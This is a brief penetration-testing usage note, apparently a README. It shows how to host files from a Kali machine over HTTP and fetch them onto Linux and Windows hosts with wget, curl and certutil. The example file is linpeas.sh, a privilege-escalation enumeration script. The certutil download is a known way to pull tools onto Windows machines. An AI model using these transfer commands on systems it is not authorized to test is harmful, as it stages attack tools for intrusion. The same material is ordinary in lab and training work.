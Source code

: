 # Usage

## Host a simple HTTP server on Kali  
in /root/  
mkdir transfer  
python3 -m http.server 80  

Copy a file into this /root/transfer/ directory: linpeas.sh

## Linux client to get files from HTTP server
wget http://\<Kali IP address>/\<filename>
  * example: wget http://192.168.57.5/linpeas.sh

## Windows client to get files from HTTP server
curl http://\<Kali IP address>/\<filename>
  * example: curl http://192.168.57.5/linpeas.sh

certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip
